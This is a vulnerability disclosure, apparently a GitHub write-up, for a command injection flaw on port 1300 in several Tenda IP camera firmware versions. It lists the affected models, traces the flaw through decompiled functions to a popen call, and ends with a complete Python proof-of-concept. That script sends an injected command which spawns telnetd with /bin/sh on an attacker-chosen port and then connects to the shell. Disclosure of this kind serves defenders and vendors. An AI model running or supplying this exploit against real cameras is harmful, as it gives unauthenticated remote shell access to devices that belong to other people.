







# Information

#### Vendor of the products:

Tenda

#### Reported by: 

FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

#### Affected products:

Tenda CP7, Tenda CP3 v.10,Tenda IT7-PCS,Tenda IT7-LCS,Tenda IT7-PRS，Tenda IT7-LRS,Tenda IC7-LRS,Tenda IC7-PRS,Tenda IT6-PCS，Tenda IT6-LCS,Tenda IT6-PRS,Tenda IC6-LRS,Tenda IC6-PRS,Tenda IT6-LRS

#### Affected firmware version:

Tenda CP7<=V11.10.00.2211041403

Tenda CP3 v.10<=V20220906024_2025

Tenda IT7-PCS<=V2209020914

Tenda IT7-LCS<=V2209020914

Tenda IT7-PRS<=V2209020908

Tenda IT7-LRS<=V2209020908_0909

Tenda IC7-LRS<=2209020910

Tenda IC7-PRS<=2209020910

Tenda IT6-PCS<=2209020915

Tenda IT6-LCS<=2209020915

Tenda IT6-PRS<=2209020911

Tenda IC6-LRS<=2209020912

Tenda IC6-PRS<=2209020912

Tenda IT6-LRS<=2209020911

#### Vendor Homepage:

https://www.tenda.com.cn/

#### Vendor Advisory: 

https://www.tenda.com.cn/product/download/CP7.html

https://www.tenda.com.cn/download/detail-3472.html

https://www.tenda.com.cn/download/detail-3471.html

https://www.tenda.com.cn/download/detail-3470.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3467.html

https://www.tenda.com.cn/download/detail-3463.htmll

https://www.tenda.com.cn/download/detail-3478.html

https://www.tenda.com.cn/download/detail-3469.html

https://www.tenda.com.cn/download/detail-3464.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3461.html

https://www.tenda.com.cn/download/detail-3462.html

https://www.tenda.com.cn/download/detail-3465.html

# Summarize

`Tenda IPC` was discovered to contain a command injection vulnerability in port `1300`.This vulnerability allows attackers to execute arbitrary commands.

# Vulnerability details

The vulnerability is in port `1300`.

At first, from the `start`entry enters, and then the `sub_11924` function is executed.



In the function `sub_11924`, we find that we can controll the content, and then we can execute the `sub_14404` function.



In the function `sub_14404`, the content will be passed to `sub_16E04`.



In the function  `sub_16E04`,we find that dangerous function `popen` appear. And we can achieve a code excute.




# poc

for example:	python3 exploit.py 192.168.2.106 8888

```python
from time import sleep
import requests
import socket
import sys
import os


if __name__ == "__main__":
	TARGET_IP = sys.argv[1]
	SHELL_PORT = sys.argv[2]

	SHELL_OPERATION = "<SYSTEMEX>telnetd -p %s -l /bin/sh &</SYSTEMEX>" % SHELL_PORT

	print("\x1b[01;38;5;214m[+] Connect to target ip\x1b[0m")
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET_IP,1300))
	sleep(0.5)

	print("[+] Sending payload to %s ..." % TARGET_IP)
	s.send(SHELL_OPERATION.encode())
	
	s.recv(1024)
	sleep(1)
	
	print("\x1b[01;38;5;1m[+] Successfully connect to Port %s\x1b[0m" % SHELL_PORT)
	os.system("telnet %s %s" % (TARGET_IP,SHELL_PORT))
	
	s.close()

```

#### Before attack



#### After attack



